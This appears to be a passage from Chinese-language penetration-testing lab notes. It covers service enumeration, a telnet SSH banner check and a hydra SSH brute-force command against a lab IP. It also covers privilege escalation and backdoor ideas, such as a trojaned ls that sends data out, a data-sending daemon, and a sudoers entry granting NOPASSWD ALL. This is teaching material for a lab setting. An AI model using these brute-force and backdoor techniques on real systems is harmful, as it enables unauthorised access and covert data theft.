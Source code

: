 ```shell
root@Kali-itcast:-#
```

发现目标主机服务，所采用的程序版本， 根据之前对cve漏洞的积累，整理在当前版本上，可能存在的漏洞。



### 查点：

目的， 进一步的对目标服务，收集信息。 

```shell
telnet 192.168.26.240 22    # 只有ssh可用这种方法查点
```



### 暴力攻击

```bash
hydra  -l itcast -P passwd.txt -e nsr  -vV   -o itcast.ok  192.168.26.240 ssh
```

 

### 提权 or  后门

提权： 让你当前用户，具备某种特权，（su 到root， sudo操作，）

​            进去后想办法提权。

后门： 

	一种，用自有程序替换，某种你的程序。（自写一个ls命令，替换/bin/ls,添加了一些其它的查询数据发送）
	
	还有一种，启动一个守护进程，并配置开机自启，定时发送一些希望收集的数据。 

sudo vi /etc/sudoers

```
#
# This file MUST be edited with the 'visudo' command as root.#
# Please consider adding local content in /etc/sudoers.d/ instead of# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.#
Defaults env_reset
Defaults mail_badpass
Defaults secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

# Host alias specification

# User alias specification

#Cmnd alias specification

#User privilege specification
rootALL=(ALL:ALL)ALL
itcast ALL=(ALL:ALL)NOPASSWD :ALL

# Allow members of group sudo to execute any command
%sudoALL=(ALL:ALL)ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
```
